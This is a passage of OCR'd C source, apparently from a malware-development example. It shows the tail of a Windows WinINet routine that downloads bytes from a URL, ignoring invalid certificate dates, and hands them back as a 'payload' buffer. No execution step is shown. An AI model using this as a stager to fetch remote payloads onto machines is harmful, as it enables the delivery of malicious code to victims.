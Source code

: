 ```c


	hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL){
	printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
	bSTATE = FALSE; goto _EndOfFunction;
	}


	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);

	if (pTmpBytes == NULL){
	bSTATE = FALSE; goto _EndOfFunction;
	}

	while (TRUE){

	if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
	printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
	bSTATE = FALSE; goto _EndOfFunction;
	}

	sSize += dwBytesRead;

	if (pBytes == NULL)
	pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
	else
	pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);

	if (pBytes == NULL) {
	bSTATE = FALSE; goto _EndOfFunction;
	}

	memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
	memset(pTmpBytes, '\0', dwBytesRead);

	if (dwBytesRead < 1024){
	break;
	}
	}


	*pPayloadBytes = pBytes;
	*sPayloadSize  = sSize;

	_EndOfFunction:
	if (hInternet)
	InternetCloseHandle(hInternet);
	if (hInternetFile)
	InternetCloseHandle(hInternetFile);
	if (hInternet)
	InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	if (pTmpBytes)
	LocalFree(pTmpBytes);
	return bSTATE;
}
```
